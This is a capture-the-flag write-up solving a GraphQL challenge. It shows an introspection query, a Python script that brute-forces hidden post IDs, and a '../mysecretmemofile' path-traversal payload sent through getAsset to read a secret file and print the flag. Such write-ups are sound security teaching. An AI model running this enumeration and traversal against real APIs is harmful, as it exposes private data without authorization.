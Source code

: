 #### Challenge:

Now R-Boy can start his chase. He lands in 1230 BC during the reign of Ramses II. In the Valley of the Temples, Zer0 has plundered Nefertiti’s tomb to resell the precious treasures on the black market. By accident, the guards catch R-Boy near the tomb. To prove he’s not a thief, he has to show his devotion to the Pharaoh by finding a secret note.

http://gamebox1.reply.it/a37881ac48f4f21d0fb67607d6066ef7/

---

#### Solution:

We are provided with a static site with following comment:

```text
Our Time Travel forum is currently under construction. Please wait until we integrate our query and manipulation language for APIs. Please go to /graphql
```

Accessing [http://gamebox1.reply.it/a37881ac48f4f21d0fb67607d6066ef7/graphql](http://gamebox1.reply.it/a37881ac48f4f21d0fb67607d6066ef7/graphql) gives us `grapql console`. Inspired by [this writeup](https://jaimelightfoot.com/blog/hack-in-paris-2019-ctf-meet-your-doctor-graphql-challenge/) we run following query and obtained its response:

Query:

```graphql
{
  __schema {
    queryType {
      fields {
        name
        description
      }
    }
  }
}
```

Response:

```json
{
  "data": {
    "__schema": {
      "queryType": {
        "fields": [
          {
            "name": "me",
            "description": null
          },
          {
            "name": "allUsers",
            "description": null
          },
          {
            "name": "user",
            "description": null
          },
          {
            "name": "post",
            "description": null
          },
          {
            "name": "allPublicPosts",
            "description": null
          },
          {
            "name": "getAsset",
            "description": null
          }
        ]
      }
    }
  }
}
```

The method `allPublicPosts` caught my attention, because where there are `"public"` posts there should be `"private"` ones too:

```graphql
{
  allPublicPosts {
    id
    #content
    title
    public
  }
}
```

```json
{
  "data": {
    "allPublicPosts": [
      {
        "id": "1",
        "title": "Unde vel qui molestiae est explicabo dolorum.",
        "public": true
      },
      {
        "id": "2",
        "title": "Voluptatem assumenda saepe debitis nostrum omnis.",
        "public": true
      },
      {
        "id": "3",
        "title": "Consequatur nobis architecto.",
        "public": true
      },
      {
        "id": "4",
        "title": "Vitae atque eius.",
        "public": true
      },
      {
        "id": "5",
        "title": "Doloremque quia ut.",
        "public": true
      },
      {
        "id": "7",
        "title": "Sunt earum blanditiis assumenda.",
        "public": true
      },
      {
        "id": "12",
        "title": "Facere ut id ea nostrum porro sunt sequi nihil sed.",
        "public": true
      },
      ...
      ...
      ...
      {
        "id": "248",
        "title": "Suscipit aliquam aut sunt et possimus magni.",
        "public": true
      },
      {
        "id": "250",
        "title": "Nihil ipsum iure eligendi itaque aut molestias voluptas.",
        "public": true
      },
      {
        "id": "251",
        "title": "Ut optio rerum eveniet a rerum.",
        "public": true
      }
```

The content of these posts were `Lorem ipsum` paragraphs so I intentionally omitted it, but from this output we can see that there are some `id`s missing in the sequence. Since there was not a method for listing private posts, but only a method `post(id)` for getting single post based on id, I whipped up following python snippet that bruteforces and lists `non-public` posts:

```python
#!/bin/python3

import requests

a = [1, 2, 3, 4, 5, 7, 12, 14, 15, 18, 24, 26, 27, 29, 31, 32, 34, 35, 36, 37, 38, 41, 42, 43, 44, 45, 47, 48, 49, 50, 54, 57, 58, 59, 62, 65, 66, 67, 68, 70, 71, 74, 76, 77, 79, 81, 84, 85, 86, 87, 88, 90, 95, 99, 106, 107, 108, 110, 111, 112, 113, 114, 115, 116, 117, 118, 125, 126, 127, 129, 132, 133, 135, 139, 140, 143, 149, 150, 151, 153, 154, 156, 157, 159, 160, 161, 162, 163, 169, 172, 173, 174, 175, 178, 181, 182, 186, 188, 189, 191, 192, 194, 198, 199, 201, 203, 207, 208, 209, 211, 212, 214, 221, 224, 225, 226, 227, 228, 230, 232, 234, 237, 238, 243, 245, 247, 248, 250, 251]

for x in range(260):
    if x not in a:
        URL = "http://gamebox1.reply.it/a37881ac48f4f21d0fb67607d6066ef7/graphql?query=%7B%0A%20%20post(id%3A%20"+str(x)+")%20%7B%0A%20%20%20%20id%0A%20%20%20%20title%0A%20%20%20%20content%0A%20%20%20%20author%20%7B%0A%20%20%20%20%20%20id%0A%20%20%20%20%7D%0A%20%20%7D%0A%7D"
        r = requests.get(url = URL)
        print(r.text)
```

This again returned lots of posts with `Lorem ipsum` paragraphs, but authors were so benevolent that they prefixed them with `uselesesstext`, so filtering that (and deleted posts) out we get:

```bash
python3 maze_graph.py | grep -v uselesesstext | grep -v null
```

```json
{"data":{"post":{"id":"40","title":"Personal notes","content":"Remember to delete the ../mysecretmemofile asset.","author":{"id":"1"}}}}
```

Running query to get the asset `../mysecretmemofile` reveals the flag:

```graphql
{
  getAsset(name: "../mysecretmemofile")
}
```

---

<details><summary>FLAG:</summary>

```
{FLG:st4rt0ffwith4b4ng!}
```

</details>
